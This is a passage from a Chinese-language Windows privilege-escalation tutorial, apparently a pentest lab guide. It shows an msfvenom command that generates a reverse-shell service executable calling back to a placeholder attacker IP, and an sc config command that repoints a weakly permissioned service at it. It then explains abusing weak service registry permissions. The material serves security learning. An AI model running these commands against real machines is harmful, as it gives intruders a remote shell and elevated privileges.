 ![](img/a8b57e0f1f403bfd590f94760826d684.png)

```
msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe-service > shell.exe
```

当 Windows 调用启动服务时，它调用 ServiceMain 函数并期望从该调用中返回。如果你不指定 exe-service，生成的有效负载将不能给你一个持久的外壳。

使用修改配置，并启动服务以执行有效负载。

`sc config daclsvc binpath= "C:\Users\user\Desktop\shell.exe"`

![](img/6ab1bf50f74dbe805dd1ca957e1b0eb4.png)

## 弱注册表权限

在 Windows 中，服务有一个注册表项，这些注册表项位于:`HKLM\SYSTEM\CurrentControlSet\Services\<service_name>`

如果**认证用户**或**NT AUTHORITY \ INTERACTIVE**拥有任何服务的完全控制权，在这种情况下，您可以更改服务将要执行的二进制文件。

![](img/c12d3b901006732068c5a341a25e2866.png)![](img/b741abf3f960bd679a661af9a7afa5cb.png)
